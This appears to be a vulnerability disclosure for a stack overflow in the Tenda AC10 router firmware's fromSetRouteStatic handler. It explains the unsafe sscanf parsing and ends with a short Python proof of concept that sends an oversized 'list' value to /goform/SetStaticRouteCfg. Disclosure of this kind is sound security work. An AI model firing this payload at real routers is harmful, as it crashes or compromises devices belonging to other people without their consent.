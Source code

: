 # Tenda AC10 v16.03.10.20 fromSetRouteStatic

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/material/show/103684

## Affected version

AC10 v4.0 V16.03.10.20

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.20 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `dest` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![1735808232041](/img/1735808232041.png)

In the `save_staticroute_data` function, the `a2` (the value of `list`) is passed to `v5` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `v13, v14, v15, v16`, it will cause a stack overflow.

![1735808527617](/img/1735808527617.png)

![1735808341956](/img/1735808341956.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

url = "http://192.168.1.100/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![1735808487726](/img/1735808487726.png)

